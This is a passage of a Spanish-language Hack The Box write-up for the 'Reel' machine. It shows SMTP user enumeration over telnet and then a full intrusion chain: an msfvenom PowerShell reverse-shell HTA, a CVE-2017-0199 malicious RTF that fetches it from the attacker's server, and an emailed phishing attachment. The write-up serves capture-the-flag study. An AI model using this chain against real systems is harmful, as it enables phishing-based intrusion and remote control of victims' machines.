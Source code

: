 Encontramos un correo electrónico. Comprobamos si existe el usuario.

```bash

❯ telnet 10.10.10.77 25
Trying 10.10.10.77...
Connected to 10.10.10.77.
Escape character is '^]'.
220 Mail Service ready
help
211 DATA HELO EHLO MAIL NOOP QUIT RCPT RSET SAML TURN VRFY
HELO x
250 Hello.
MAIL FROM:cxdxnt@reel.htb
250 OK
RCPT TO:nico@megabank.com
250 OK
```
## Rce 

Según el archivo readme.txt el email nico@megabank.com solo va a abrir los archivos que tengan la extensión .rtf , entonces procedemos a buscar como crear un archivo rtf malicioso. Nos encontramos con esta herramienta.

![](/assets/images/htb-writeup-reel/vulnerabilidad.png)

Para ganar acceso al sistema tenemos que hacer lo siguiente.

```bash
1.crear un archivo hta y rtf malicioso # msfvenom -p windows/x64/powershell_reverse_tcp lhost=10.10.14.8 lport=443 -f hta-psh > shell.hta
                                       #python2 cve-2017-0199_toolkit.py -M gen -w pwned.rtf -u http://10.10.14.8/shell.hta -t RTF -x 0
2. ponerte en escucha en el puerto 80 # python3 -m http.server 80
3.mandar el email y esperar.# sendEmail -f cxdxnt@reel.htb  -t "nico@megabank.com" -s 10.10.10.77 -u "Interesante archivo" -a pwned.rtf -m "testing"
```
Ganamos acceso como nico.
